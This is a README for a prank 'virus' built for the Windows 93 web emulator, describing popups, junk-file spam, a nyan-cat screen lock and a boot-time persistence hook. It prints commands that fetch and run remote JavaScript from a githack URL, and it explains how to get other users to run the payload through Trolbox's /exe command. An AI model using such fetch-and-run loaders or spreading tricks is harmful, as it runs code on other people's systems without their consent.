 # Memz-virus-v6

Hello there
This virus is inspired by the original MEMZ virus.
It is meant to run in the windows 93 emulator and was made in the emulator at http://windows93.net/

I would say this would be the best virus you can play with in win 93.



# What does it do?

The virus will make popups on your screen to annoy you including 2 other popups that will 
1: Load a memory virus. (spams you with junk files)

2: A fake reboot button that will put a nyan cat on your screen and play nyan cat music.
^^^(this will also not allow you to do anything, there will only be a nyan cat on your screen.)

The virus will open win 93 apps incuding Hydra.exe, and will also infect your boot with a js file that loads itself whenever you boot up. 
-->code($loader.script("https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js"))

There is another feature which defines that this is a virus. You can make others get it on their emulator using the win 93 app, Trolbox.
In trolbox u need to type in the command  /exe js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js

The /exe command in trolbox is the executing command that will allow others to execute whatever you put after the exe.

This will make a /exe box next to your code which allows others to click that and execute that line of code.
It's the same thing in terminal. If you type js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js
it will load the raw code.

I used https://raw.githack.com/ to make the code in this git be in a raw form.

____________________________________________________________________


